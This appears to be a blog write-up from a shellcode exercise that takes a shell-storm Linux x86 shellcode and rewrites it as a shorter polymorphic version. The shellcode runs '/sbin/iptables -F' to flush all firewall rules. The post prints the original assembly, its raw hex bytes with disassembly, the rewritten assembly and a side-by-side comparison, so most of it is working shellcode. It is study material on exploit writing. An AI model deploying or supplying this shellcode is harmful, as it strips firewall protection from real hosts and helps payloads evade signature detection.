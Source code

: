 The 2nd piece of shellcode we will try to create a polymorphic version of will be:\
http://shell-storm.org/shellcode/files/shellcode-361.php
The original length is 58 bytes, meaning we have up to 87 bytes (no more than 150%).

Let's take a look at the shellcode that is listed on shellstorm and lets put this through ndisasm just to be sure.
```
jmp	short	callme
main:
	pop	esi
	xor	eax,eax
	mov byte [esi+14],al
	mov byte [esi+17],al
	mov long [esi+18],esi
	lea	 ebx,[esi+15]
	mov long [esi+22],ebx
	mov long [esi+26],eax
	mov 	al,0x0b
	mov	ebx,esi
	lea	ecx,[esi+18]
	lea	edx,[esi+26]
	int	0x80
	

callme:
	call	main
	db '/sbin/iptables#-F#'
```
```
echo -ne '\xeb\x21\x5e\x31\xc0\x88\x46\x0e\x88\x46\x11\x89\x76\x12\x8d\x5e\x0f\x89\x5e\x16\x89\x46\x1a\xb0\x0b\x89\xf3\x8d\x4e\x12\x8d\x56\x1a\xcd\x80\xe8\xda\xff\xff\xff\x2f\x73\x62\x69\x6e\x2f\x69\x70\x74\x61\x62\x6c\x65\x73\x23\x2d\x46\x23' | ndisasm -u -
00000000  EB21              jmp short 0x23
00000002  5E                pop esi
00000003  31C0              xor eax,eax
00000005  88460E            mov [esi+0xe],al
00000008  884611            mov [esi+0x11],al
0000000B  897612            mov [esi+0x12],esi
0000000E  8D5E0F            lea ebx,[esi+0xf]
00000011  895E16            mov [esi+0x16],ebx
00000014  89461A            mov [esi+0x1a],eax
00000017  B00B              mov al,0xb
00000019  89F3              mov ebx,esi
0000001B  8D4E12            lea ecx,[esi+0x12]
0000001E  8D561A            lea edx,[esi+0x1a]
00000021  CD80              int 0x80
00000023  E8DAFFFFFF        call dword 0x2
00000028  2F                das
00000029  7362              jnc 0x8d
0000002B  696E2F69707461    imul ebp,[esi+0x2f],dword 0x61747069
00000032  626C6573          bound ebp,[ebp+0x73]
00000036  23                db 0x23
00000037  2D                db 0x2d
00000038  46                inc esi
00000039  23                db 0x23

```
We have a jump-call-pop to get the string we will be using. the #'s are replaced with nulls.  Looks like the strings are then copied to a location after the first string for the args struct as well.  Let's start working on a polymorphic version.

It looks like we can greatly reduce this shellcode if we get rid of the copying of the strings and just use our already saved reference.\
We can jmp-call-pop into ebx to have our path to iptables already stored in the proper register.\
Then we can 0 out edx with cdq and move a null byte into the # location.
```nasm
global _start

section .text

_start:
  jmp short get
code:
  pop ebx
  cdq
  mov [ebx+0xe], dl
get:
  call code
  file: db "/sbin/iptables#-F"
```
Next we set up our args struct.  The original shellcode copies the string to a location after the original string and sets it to ecx then uses an address of the already used null byte for edx.\
We can just skip all these steps and use our original string and push the addresses to the stack, then move the stack pointer in to the ecx register.  Our edx is already 0'd out from earlier as well.\
This is using the same strategy a normal stack based execve call would use.  Since we already have addresses stored in registers, it makes sense to do this and greatly reduces our shellcode length.\
Also note that in the string variable above that we have removed the second '#'.  Our strategy pushes a null byte to the stack before the string address instead of replacing another '#' with a null.
```nasm
lea eax, [ebx+0xf]  ; get address of '-F'
push edx            ; null terminate the struct
push eax            ; push -F
push ebx            ; push /sbin/iptables
mov ecx, esp        ; address stored as argument
```
The last steps are to move 0xb into eax and interrupt (int 0x80).  We can use edx since it is null to mov into eax just for a little variation, then mov 0xb into al and make our call
```nasm
mov eax, edx
mov al, 0xb
int 0x80
```
Let's build it and run it.  Our objdump seems to be missing a few bytes in the string from /sbin/iptables.   I had to go in a manuall insert the sb from sbin and the a from iptables, then it was successful.\
It has reduced the shellcode by 26%! Let's compare the shellcode side by side.
```nasm
jmp short 0x23                                jmp short 0x15
pop esi                                       pop ebx
xor eax,eax                                   cdq
mov [esi+0xe],al                              mov [ebx+0xe], dl
mov [esi+0x11],al                             lea eax, [ebx+0xf]
mov [esi+0x12],esi                            push edx
lea ebx,[esi+0xf]                             push eax
mov [esi+0x16],ebx                            push ebx
mov [esi+0x1a],eax                            mov ecx, esp
mov al,0xb                                    mov eax, edx
                                              mov al, 0xb
mov ebx,esi                                   
lea ecx,[esi+0x12]                            
lea edx,[esi+0x1a]
int 0x80                                      int 0x80
call dword 0x2                                call dword 0x2
das                                           das
jnc 0x8d                                      jnc 0x7f
imul ebp,[esi+0x2f],dword 0x61747069          imul ebp,[esi+0x2f],dword 0x61747069
bound ebp,[ebp+0x73]                          bound ebp,[ebp+0x73]
db 0x23                                       db 0x23
db 0x2d                                       db 0x2d
inc esi                                       inc esi
db 0x23
```
